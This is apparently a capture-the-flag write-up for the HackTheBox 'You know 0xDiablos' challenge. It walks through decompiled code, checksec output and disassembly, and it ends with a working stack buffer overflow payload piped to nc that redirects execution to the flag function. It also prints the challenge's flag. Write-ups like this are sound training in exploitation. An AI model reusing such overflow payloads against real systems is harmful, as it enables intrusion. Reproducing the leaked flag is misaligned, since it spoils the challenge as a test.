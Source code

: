 ```yaml
---
description: You know 0xDiablos challenge from HackTheBox write up.
password: 'HTB{0ur_Buff3r_1s_not_healthy}'
---
```


# You know 0xDiablos

The first thing I did was open the binay with Ghidra:

```c
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}


undefined4 main(void)
{
  __gid_t __rgid;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```

As we can see here, the `vuln` function is using `gets`, what is vulnerable to a buffer overflow. We can also find a `flag` function that will print the flag to us when executed:

```c
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

According to radare the entrypoint for this function is: `0x080491e2`. Since the binary has no protections regarding ASLR:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/You know 0xDiablos]
└─$ checksec vuln 
[*] '/home/kali/Desktop/HTB/You know 0xDiablos/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can create a 188 bytes payload (180 bytes for the buffer, 4 bytes for the 8 bytes alligment and 4 bytes for the EBP) followed by the `flag` function entrypoint address in little endian to overwrite the stack return pointer and make the program execute the `flag` function. Nice, now for the flag function to print the flag we need to also modify the function parameters:

```assembly
[0xf7f470b0]> pdf @sym.flag
┌ 144: sym.flag (int32_t arg_8h, int32_t arg_ch);
│           ; var int32_t var_4ch @ ebp-0x4c
│           ; var int32_t var_ch @ ebp-0xc
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_8h @ ebp+0x8
│           ; arg int32_t arg_ch @ ebp+0xc
│           0x080491e2      55             push ebp
│           0x080491e3      89e5           mov ebp, esp
│           0x080491e5      53             push ebx
│           0x080491e6      83ec54         sub esp, 0x54
│           0x080491e9      e832ffffff     call sym.__x86.get_pc_thunk.bx
│           0x080491ee      81c3122e0000   add ebx, 0x2e12
│           0x080491f4      83ec08         sub esp, 8
│           0x080491f7      8d8308e0ffff   lea eax, [ebx - 0x1ff8]
│           0x080491fd      50             push eax
│           0x080491fe      8d830ae0ffff   lea eax, [ebx - 0x1ff6]
│           0x08049204      50             push eax
│           0x08049205      e8a6feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)                                                                                                                         
│           0x0804920a      83c410         add esp, 0x10
│           0x0804920d      8945f4         mov dword [var_ch], eax
│           0x08049210      837df400       cmp dword [var_ch], 0
│       ┌─< 0x08049214      751c           jne 0x8049232
│       │   0x08049216      83ec0c         sub esp, 0xc
│       │   0x08049219      8d8314e0ffff   lea eax, [ebx - 0x1fec]
│       │   0x0804921f      50             push eax
│       │   0x08049220      e84bfeffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x08049225      83c410         add esp, 0x10
│       │   0x08049228      83ec0c         sub esp, 0xc
│       │   0x0804922b      6a00           push 0
│       │   0x0804922d      e84efeffff     call sym.imp.exit           ; void exit(int status)
│       └─> 0x08049232      83ec04         sub esp, 4
│           0x08049235      ff75f4         push dword [var_ch]
│           0x08049238      6a40           push 0x40                   ; '@' ; 64
│           0x0804923a      8d45b4         lea eax, [var_4ch]
│           0x0804923d      50             push eax
│           0x0804923e      e80dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08049243      83c410         add esp, 0x10
│           0x08049246      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef
│       ┌─< 0x0804924d      751a           jne 0x8049269
│       │   0x0804924f      817d0c0dd0de.  cmp dword [arg_ch], 0xc0ded00d
│      ┌──< 0x08049256      7514           jne 0x804926c
│      ││   0x08049258      83ec0c         sub esp, 0xc
│      ││   0x0804925b      8d45b4         lea eax, [var_4ch]
│      ││   0x0804925e      50             push eax
│      ││   0x0804925f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
│      ││   0x08049264      83c410         add esp, 0x10
│     ┌───< 0x08049267      eb04           jmp 0x804926d
│     ││└─> 0x08049269      90             nop
│     ││┌─< 0x0804926a      eb01           jmp 0x804926d
│     │└──> 0x0804926c      90             nop
│     │ │   ; CODE XREFS from sym.flag @ 0x8049267, 0x804926a
│     └─└─> 0x0804926d      8b5dfc         mov ebx, dword [var_4h]
│           0x08049270      c9             leave
└           0x08049271      c3             ret
```

Adding 4 bytes for the function return pointer (We don't really care) and then the values of the parameters (`0xdeadbeef` and `0xc0ded00d`) in hexadecimal and little endian will do:


```bash
python2 -c "print(b'A'*188 + b'\xe2\x91\x04\x08' + b'A'*4 + b'\xef\xbe\xad\xde' + b'\x0d\xd0\xde\xc0')" | nc <MACHINE_IP> <MACHINE_PORT>
```
